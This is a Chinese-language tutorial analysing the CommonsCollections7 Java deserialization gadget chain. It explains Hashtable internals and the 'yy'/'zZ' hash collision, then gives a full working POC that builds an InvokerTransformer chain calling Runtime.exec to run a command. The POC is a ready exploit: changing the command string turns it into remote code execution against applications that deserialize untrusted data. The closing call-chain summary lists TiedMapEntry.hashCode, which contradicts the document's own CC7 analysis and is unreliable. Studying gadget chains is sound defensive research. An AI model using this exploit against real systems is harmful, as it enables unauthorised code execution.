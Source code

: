 # 环境搭建
> 1. `JDK`版本：JDK1.8u66
> 2. `Commons-Collections`版本：3.1

> 利用`maven`来进行搭建，先创建一个`Maven`项目，不用选择任何`Maven`模板，`pom.xml`中内容如下，之后选择右侧的更新，让其自动导入包即可

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>commons-collections</artifactId>
    <version>1.0-SNAPSHOT</version>

    <dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
    </dependencies>

</project>
```

# 前置知识
## Hashtable
> `Hashtable`与`HashMap`类似，都是是一种`key-value`形式的哈希表

```java
[1] Hashtable 线程安全，HashMap 线程不安全
[2] HashMap 继承 AbstractMap，而 Hashtable 继承 Dictionary
[3] 两者内部基本都是使用“数组-链表”的结构，但是 HashMap 引入了红黑树的实现
[4] Hashtable 的 key-value 不允许为 null 值，但是 HashMap 则是允许的，后者会将 key=null 的实体放在 index=0 的位置
```

> 跟进`Hashtable`发现，在`readObject`方法中，会调用`reconstitutionPut()`方法，并在`reconstitutionPut()`方法中会调用`key.hashCode()`，后续的调用逻辑和`CommonsCollections6`链基本一致

<img src="./images/23.png" alt="">

## 哈希碰撞机制
> 在[ProgrammerSought](https://www.programmersought.com/article/94401321514/)上给出的说法是

```
The so-called hash conflict, that is, the two key values ​​are calculated by the hash function to obtain the same hash value, and a subscript can only store one key, which produces a hash conflict, if the subscript one of the keys first Saved, the other key must find its own storage location by other means.
```
> 也就是说，当两个不同的`key`通过`hash()`方法计算出同一个`hash`值时，而一个下标只能存储一个`key`，这就产生了`hash`冲突

> 那么要如何构造出一个`hash`冲突呢，跟进`HashMap#hash`方法

<img src="./images/27.png" alt="">

> 继续跟进`hashcode()`方法，根据`for`循环中的代码，不难推出`Hash`值的计算公式

<img src="./images/28.png" alt="">

<img src="./images/29.png" alt="">

> 这也就不难解释为什么`ysoserial`项目中的`CommonsCollections7`链中是`yy`和`zZ`了，需要时，利用`z3`来计算字符串位数不一样情况下的可能值即可

```python
ord("y") == 121
ord("z") == 122
ord("Z") == 90
"yy".hashCode() == 31 × 121 + 1 × 121 == 3872
"zZ".hashCode() == 31 × 122 + 1 × 90 == 3872
"yy".hashCode() == "zZ".hashCode() == 3872
```


# CommonsCollections7 分析
> 在`CommonsCollections`链中，利用`AbstractMap#equals`来触发对`LazyMap#get`方法的调用，这里的`m`如果是可控的话，那么设置`m`为`LazyMap`，就可以完成后面的链子构造

<img src="./images/24.png" alt="">

> 继续跟进看看`equals`方法的调用点在哪，在前面的`Hashtable#reconstitutionPut`方法中存在着调用点：`e.key.equals(key)`，如果这里的`key`可控的话，上面的`m`也就是可控的

> 观察到在`readObject`方法中传递进去的`key`，相应的，那么在`writeObject`处也会存在`Hashtable#put`进入的值

<img src="./images/25.png" alt="">

> 这里还需要注意一个点，由于`if`语句是用`&&`连接判断条件的，那么要执行到后面的`e.key.equals(key)`，就必须先要满足`e.hash == hash`，接着调用`equals`方法，这里利用到了`Hash`冲突(`Hash`碰撞)机制

<img src="./images/26.png" alt="">

> 在`POC`中移除第二个`LazyMap`中的元素是因为`get`方法向当前的`map`添加了新元素，从而`map2`变成了两个元素

<img src="./images/31.png" alt="">

## POC

```java
package CommonsCollections7;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 6:40 下午
 */
public class CommonsCollections7Gadget {

    public static void CC7() throws NoSuchFieldException, IllegalAccessException {
        Transformer[] faketransformer = new Transformer[]{};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(faketransformer);

        Map hashMap1 = new HashMap();
        Map hashMap2 = new HashMap();

        Map map1 = LazyMap.decorate(hashMap1, chainedTransformer);
        map1.put("yy", 1);
        Map map2 = LazyMap.decorate(hashMap2, chainedTransformer);
        map2.put("zZ", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(map1, 1);
        hashtable.put(map2, 1);
        Class _class = chainedTransformer.getClass();
        Field field = _class.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chainedTransformer, transformers);
        map2.remove("yy");

        try {
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(hashtable);
            objectOutputStream.close();

            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC7();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
<img src="./images/30.png" alt="">

# 调用链

```java
Hashtable.readObject()
   TiedMapEntry.hashCode()
        LazyMap.get()
            ChainedTransformer.transform()
                ConstantTransformer.transform()
                    InvokerTransformer.transform()
```

# 总结
> 主体思想是用`Hashtable`代替`HashMap`触发`LazyMap`，后续利用与`CommonsCollections6`链的`HashMap`利用方式基本一致